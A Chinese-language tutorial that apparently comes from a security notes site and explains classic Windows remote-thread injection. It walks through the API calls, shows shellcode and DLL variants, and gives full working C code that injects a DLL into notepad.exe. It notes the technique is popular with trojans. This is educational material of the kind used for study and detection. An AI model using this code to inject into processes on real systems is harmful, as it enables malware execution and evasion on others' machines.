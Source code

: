 ```yaml
---
description: 经典代码&dll注入
---
```


# CreateRemoteThread

## 远程线程注入

远程线程注入是指一个进程在另一个进程中创建线程的技术，通常用于注入dll或shellcode，两者执行方式会有一些简单的差异但是原理相同，这是一种简单且稳定的经典注入方式，被很多病毒木马所青睐，此外也存在更新式的注入方式。

## 注入流程

1. 打开被注入进程的句柄
2. 通过句柄向被注入进程申请可写可执行空间
3. 往申请的空间内写入必要数据（dllpath&shellcode）
4. 通过windows提供的api创建线程

![](../.gitbook/assets/remote.gif)

## 编程实现

### 0.使用函数原型

```text
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

```text
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

```text
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

```text
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

### 1.打开被注入进程的句柄

```text
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, <pid>);
```

### 2.通过句柄向被注入进程申请可写可执行空间

```text
LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### 3.往申请的空间内写入必要数据（dll&shellcode）

#### 3.1 shellcode

```text
char shellcode[]="XXXXXX";
WriteProcessMemory(hProcess, lpBaseAddress, shellcode, sizeof(shellcode), NULL);
```

#### 3.2 DLL注入

```text
char path[]="c:/test/test.dll";
WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
```

### 4.通过windows提供的api创建线程

#### 4.1 shellcode

```text
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0, 0, 0);
```

#### 4.2 DLL注入

我们都知道在进程载入DLL的时候会调用DLLMAIN函数,同时由于ASLR\(基址随机化\)的缘故，在操作系统启动时，DLL的加载地址不尽相同,但由于部分系统DLL要求在系统启动后必须固定，所以我们通过GetProcAddress函数获取操作系统加载DLL的函数。

也就是说,虽然进程不同但是部分系统dll在不同进程中的地址是相同的，那么我们可以通过获取本地进程的相关函数作为远程线程函数的启动参数,并把申请的空间指向加载DLL保存路径的字符串，就可以远程加载DLL。

* 不同进程的kernel32.dll

![](../.gitbook/assets/image%20%2875%29.png)

![](../.gitbook/assets/image%20%282%29.png)



```text
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
```

![](../.gitbook/assets/image%20%2831%29.png)

## 优化与使用

* 根据进程名查找PID

```text
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
```

* 完整代码

```text
#include <stdio.h>
#include <Windows.h>
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
char path[] = "C:\\Users\\Black Sheep\\source\\repos\\CreateRemoteThread\\x64\\Release\\TestDll.dll";

int main()
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetProcessIdByName((LPCTSTR)"notepad.exe"));
    
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
    return 0;
}

```

* github:[https://github.com/idiotc4t/CreateRemoteThread](https://github.com/idiotc4t/CreateRemoteThread)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/" %}



